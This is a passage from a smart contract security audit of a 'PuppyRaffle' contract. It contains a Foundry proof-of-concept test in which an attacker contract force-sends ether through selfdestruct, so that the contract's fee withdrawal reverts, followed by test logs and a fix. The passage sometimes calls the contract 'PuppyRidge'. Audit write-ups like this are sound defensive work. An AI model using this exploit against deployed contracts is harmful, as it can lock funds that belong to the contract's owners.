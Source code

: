 ```solidity
        console.log(address(puppyRaffle).balance, "= Balance of PuppyRaffle contract before attack");

// DONE - 3. Create an attackerContract instance and load with funds
        selfDestruct attackerContract = new selfDestruct(puppyRaffle);
        vm.deal(address(attackerContract), 10 ether);
        console.log(address(attackerContract).balance, "= Balance of Attacker contract");
        
// DONE - 4. Push funds through self-destruct to the address(PuppyRaffle)
        vm.prank(playerOne);
        attackerContract.destroy();

// 5. Test selectWinner(), so that totalFees != 0
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);
        puppyRaffle.selectWinner();

// DONE - 5. console.log(address(this).balance)
        console.log(address(puppyRaffle).balance, "= Balance of PuppyRaffle contract after attack");
        console.log(puppyRaffle.totalFees(), "= PuppyRaffle totalFees currently");
        
// DONE - 6. create a check for the next call to revert  
        vm.expectRevert("PuppyRaffle: There are currently players active!");
        vm.prank(playerOne);

// DONE - 7. call puppyRaffle.withdrawFees()
        puppyRaffle.withdrawFees();
    }
}
```

3. Check the output:
```bash
    Ran 1 test for test/Audit_PoC_Selfdestruct.t.sol:Audit_PoC_Selfdestruct
    [PASS] testCanBreakWithdrawFees() (gas: 360042)
    Logs:
    4000000000000000000 = Balance of PuppyRaffle contract before attack
    10000000000000000000 = Balance of Attacker contract
@-->10800000000000000000 = Balance of PuppyRaffle contract after attack
@-->800000000000000000 = PuppyRaffle totalFees currently

    Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.80ms (1.23ms CPU time)
```

As you can see the `address(this).balance` is not equal to the `PuppyRaffle::totalFees()`, thus the `PuppyRidge::withdrawFees()` function would revert during the first require check.

**Recommended Mitigation:** 
Remove the first require statement from the `PuppyRidge::withdrawFees()` function. 

```diff
        function withdrawFees() external {
-           require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!"); 
            uint256 feesToWithdraw = totalFees;
            totalFees = 0;
            (bool success,) = feeAddress.call{value: feesToWithdraw}("");
            require(success, "PuppyRaffle: Failed to withdraw fees");
        }
```
